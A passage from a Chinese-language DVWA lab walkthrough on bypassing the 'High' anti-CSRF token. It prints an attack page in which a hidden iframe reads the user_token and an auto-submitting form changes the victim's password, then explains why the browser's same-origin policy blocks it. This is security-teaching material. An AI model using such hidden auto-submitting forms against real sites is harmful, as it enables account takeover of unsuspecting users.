 可以看到，High级别的代码加入了Anti-CSRF token机制，用户每次访问改密页面时，服务器会返回一个随机的token，向服务器发起请求时，需要提交token参数，而服务器在收到请求时，会优先检查token，只有token正确，才会处理客户端的请求。

漏洞利用
要绕过High级别的反CSRF机制，关键是要获取token，要利用受害者的cookie去修改密码的页面获取关键的token。

试着去构造一个攻击页面，将其放置在攻击者的服务器，引诱受害者访问，从而完成CSRF攻击，下面是代码。


```
<script type="text/javascript">

    function attack()

  {

   document.getElementsByName('user_token')[0].value=document.getElementById("hack").contentWindow.document.getElementsByName('user_token')[0].value;

  document.getElementById("transfer").submit(); 

  }

</script>

 

<iframe src="http://192.168.153.130/dvwa/vulnerabilities/csrf" id="hack" border="0" style="display:none;">

</iframe>

 

<body onload="attack()">

  <form method="GET" id="transfer" action="http://192.168.153.130/dvwa/vulnerabilities/csrf">

   <input type="hidden" name="password_new" value="password">

    <input type="hidden" name="password_conf" value="password">

   <input type="hidden" name="user_token" value="">

  <input type="hidden" name="Change" value="Change">

   </form>

</body>
```


攻击思路是当受害者点击进入这个页面，脚本会通过一个看不见框架偷偷访问修改密码的页面，获取页面中的token，并向服务器发送改密请求，以完成CSRF攻击。

然而理想与现实的差距是巨大的，这里牵扯到了跨域问题，而现在的浏览器是不允许跨域请求的。这里简单解释下跨域，我们的框架iframe访问的地址是http://192.168.153.130/dvwa/vulnerabilities/csrf，位于服务器192.168.153.130上，而我们的攻击页面位于黑客服务器10.4.253.2上，两者的域名不同，域名B下的所有页面都不允许主动获取域名A下的页面内容，除非域名A下的页面主动发送信息给域名B的页面，所以我们的攻击脚本是不可能取到改密界面中的user_token。
